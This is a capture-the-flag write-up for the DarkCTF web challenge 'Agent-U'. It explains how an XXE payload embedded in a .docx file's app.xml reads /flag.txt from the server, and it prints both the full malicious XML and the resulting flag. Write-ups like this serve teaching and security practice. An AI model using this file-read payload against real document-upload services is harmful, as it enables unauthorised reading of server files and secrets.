 # DarkCTF – Agent-U

![web category](https://img.shields.io/badge/category-web-lightgrey.svg) ![author](https://img.shields.io/badge/Author-karma-lightgrey.svg)

![points](https://img.shields.io/badge/points-490-lightgray.svg)
![solves](https://img.shields.io/badge/solves-14-lightgray.svg)

## Challenge

> My friend developed this website but he says user should know some Xtreme Manipulative Language to understand this web.

> Flag is in /flag.txt

> http://filereader.darkarmy.xyz/

# Solution

The webpage is a simple file upload page. Attempting to upload any file that isnt a .pdf or .docx will give the error message `Only Pdf and docx file are allowed`.

Uploading a docx or pdf file will display the file name, size, MIME-Type, and number of pages onto the screen.

"Xtreme Manipulative Language" in the description most likely stands for XML, meaning this challenge possibly requires an XXE (XML External Entity) attack. 

Within a .docx file is multiple XML files which hold the document properties, content, and relationships between the files. After some research and looking around, I found that the app.xml file is what stores application metadata, including the number of pages.

I created a new .docx file and inserted text on two pages, and then opened the file in WinRAR. From the WinRAR archive, I opened /docProps/app.xml which read:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<Properties xmlns="http://schemas.openxmlformats.org/officeDocument/2006/extended-properties" xmlns:vt="http://schemas.openxmlformats.org/officeDocument/2006/docPropsVTypes">
  <Template>Normal.dotm</Template>
  <TotalTime>1</TotalTime>
  <Pages>2</Pages>
  <Words>0</Words>
  <Characters>5</Characters>
  <Application>Microsoft Office Word</Application>
  <DocSecurity>0</DocSecurity>
  <Lines>1</Lines>
  <Paragraphs>1</Paragraphs>
  <ScaleCrop>false</ScaleCrop>
  <Company/>
  <LinksUpToDate>false</LinksUpToDate>
  <CharactersWithSpaces>5</CharactersWithSpaces>
  <SharedDoc>false</SharedDoc>
  <HyperlinksChanged>false</HyperlinksChanged>
  <AppVersion>16.0000</AppVersion>
</Properties>
```

And added an external entity to read /flag.txt, and called it within the \<Pages\> element.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///flag.txt">]>
<Properties xmlns="http://schemas.openxmlformats.org/officeDocument/2006/extended-properties" xmlns:vt="http://schemas.openxmlformats.org/officeDocument/2006/docPropsVTypes">
  <Template>Normal.dotm</Template>
  <TotalTime>1</TotalTime>
  <Pages>&xxe;</Pages>
  <Words>0</Words>
  <Characters>5</Characters>
  <Application>Microsoft Office Word</Application>
  <DocSecurity>0</DocSecurity>
  <Lines>1</Lines>
  <Paragraphs>1</Paragraphs>
  <ScaleCrop>false</ScaleCrop>
  <Company/>
  <LinksUpToDate>false</LinksUpToDate>
  <CharactersWithSpaces>5</CharactersWithSpaces>
  <SharedDoc>false</SharedDoc>
  <HyperlinksChanged>false</HyperlinksChanged>
  <AppVersion>16.0000</AppVersion>
</Properties>
```

After saving App.xml, updating the archive, and uploading the docx file, we are given the flag in the Number of Pages field.

> Number of pages : darkCTF{1nj3ct1ng_d0cx_f0r_xx3}
